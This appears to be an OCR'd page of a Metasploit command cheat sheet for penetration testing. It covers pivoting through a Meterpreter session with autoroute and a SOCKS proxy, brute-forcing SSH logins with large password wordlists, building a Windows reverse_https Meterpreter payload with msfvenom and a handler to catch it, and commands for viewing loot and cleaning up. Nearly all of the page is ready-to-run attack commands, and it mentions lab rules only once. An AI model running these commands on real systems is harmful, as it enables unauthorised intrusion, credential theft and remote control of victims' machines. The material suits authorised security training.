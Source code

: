 Pivoting with autoroute + socks proxy
```
# From a meterpreter session on a host that sees 10.10.20.0/24
sessions -i 1
run post/multi/manage/autoroute SUBNET=10.10.20.0 NETMASK=255.255.255.0
background

# Provide SOCKS5 for external tools (e.g., proxychains)
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
set VERSION 5
run -j

# On the host OS: add to ProxyChains
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf

# Now scan/poke internal hosts via proxychains (TCP connect scans)
proxychains nmap -sT -Pn -n -p 80,445 10.10.20.10
```

Credential brute-force example (if permitted in lab rules)
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.10.13
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
set PASS_FILE /usr/share/seclists/Passwords/10-million-password-list-top-10000.txt
set STOP_ON_SUCCESS true
set THREADS 10
run
```

Generate a payload and catch it (msfvenom + multi/handler)
```
# Windows x64 Meterpreter over HTTPS
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${LHOST} LPORT=443 -f exe -o payload.exe

# Listener
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST ${LHOST}
set LPORT 443
set ExitOnSession false
exploit -j
```

Loot and cleanup
```
# View stored loot/notes
loot
notes
# Location of loot on disk (Kali): ~/.msf4/loot

# Stop logging
spool off

# Close everything
sessions -K
jobs -l
jobs -k all
exit -y
```
